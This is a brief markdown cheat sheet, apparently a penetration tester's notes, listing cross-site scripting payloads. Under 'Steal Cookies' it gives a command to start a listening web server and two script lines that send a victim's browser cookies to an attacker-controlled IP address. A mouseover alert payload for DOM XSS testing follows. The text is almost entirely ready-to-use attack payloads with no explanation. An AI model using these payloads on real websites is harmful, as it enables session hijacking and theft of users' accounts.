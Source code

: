 Steal Cookies
-----------------------
```
# Start Web Server
python -m SimpleHTTPServer 80

<script>document.location="http://192.168.0.60/?c="+document.cookie;</script>
<script>new Image().src="http://192.168.0.60/index.php?c="+document.cookie;</script>
```
Mouseover test
-----------------------
```
<a href="" onmouseover="javascript:alert('HackerOne MkSecurity Dom XSS');">Click for Detail</a>
```
